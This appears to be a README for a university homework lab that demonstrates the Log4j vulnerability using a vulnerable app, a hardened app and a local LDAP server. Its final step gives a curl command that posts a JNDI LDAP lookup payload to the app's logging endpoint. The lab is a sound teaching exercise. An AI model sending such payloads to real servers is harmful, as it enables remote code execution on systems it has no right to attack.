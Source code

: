 # Homework 9 - Log4j Demonstration

## Setup Instructions
1. Open a terminal window.
2. Move into the appropriate directory.
* For the vulnerable app, use the ***before*** folder.
* For the hardened app, use the ***after*** folder.
3. Run ```make reset```, then wait for the container to run.
4. Open a new terminal window and navigate to the ***ldap_server*** folder.
5. Start the ldap server with ```python ldap_server.py```
6. Test logging with the command ```curl -H 'Content-Type: text/plain' --data 'Hello, World!' http://localhost:8080/log'''
7. Test the exploit with the command
```curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log```